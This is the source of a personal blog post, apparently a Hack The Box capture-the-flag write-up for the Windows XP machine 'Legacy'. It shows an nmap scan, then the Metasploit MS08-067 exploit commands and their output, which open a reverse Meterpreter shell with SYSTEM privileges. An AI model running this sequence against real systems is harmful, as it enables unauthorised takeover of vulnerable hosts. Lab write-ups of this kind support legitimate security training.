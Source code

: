```yaml
---
layout: post
title: Legacy(HTB)
categories:
  - Writeup
---
```

<br>OS Windows
<br>IP: 10.10.10.4
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -Pn 10.10.10.4

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-17 14:28 EST
<br>Nmap scan report for 10.10.10.4
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT     STATE  SERVICE       VERSION
<br><font color="BB69EC">139/tcp</font>  open   netbios-ssn   <font color="53E100">Microsoft Windows netbios-ssn</font>
<br><font color="BB69EC">445/tcp</font>  open   microsoft-ds  <font color="53E100">Microsoft Windows XP microsoft-ds</font>
<br><font color="BB69EC">3389/tcp</font> closed ms-wbt-server
<br>Service Info: OSs: Windows, <font color="53E100">Windows XP</font>; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

<br>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.53 seconds</p>
</div>
</font>

<br>**Vulnerabilty**:- The Target machine is running _**SMB**_ service on a windows XP machine so we can use the netapi exploit which is avaialbe on metsaploit.

<br>**Vulnerabilty Description**:- This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on some operating systems and service packs. The correct target must be used to prevent the Server Service (along with a dozen others in the same process) from crashing. Windows XP targets seem to handle multiple successful exploitation events, but 2003 targets will often crash or hang on subsequent attempts. This is just the first version of this module, full support for NX bypass on 2003, along with other platforms, is still in development.

<br>**Exploit**:- [MS08-067 Microsoft Server Service Relative Path Stack Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/smb/ms08_067_netapi
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > set RHOST 10.10.10.4
<br>RHOST => 10.10.10.4
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Automatically detecting the target...
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Attempting to trigger the vulnerability...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.4
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (<font color="53E100">10.10.*.*:4444 -> 10.10.10.4:1029</font>) at 2017-12-17 15:45:50 -0500

<br>meterpreter > getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter > shell
<br>Process 624 created.
<br>Channel 1 created.
<br>Microsoft Windows XP [Version 5.1.2600]
<br>(C) Copyright 1985-2001 Microsoft Corp.

<br><font color="BB69EC">C:\WINDOWS\system32></font></p>
</div>
</font>
<br>Using this exploit we got the _System Level Privilege_

<br>**Flags**:-
<font size="1">
<div style="height:150px;width:400px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<br><font color="BB69EC">C:\Documents and Settings\john\Desktop></font>type user.txt</p>
<br><font color="53E100">**********************</font>
<br><font color="BB69EC">C:\Documents and Settings\Administrator\Desktop></font>type root.txt
<br><font color="53E100">**********************</font>
</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
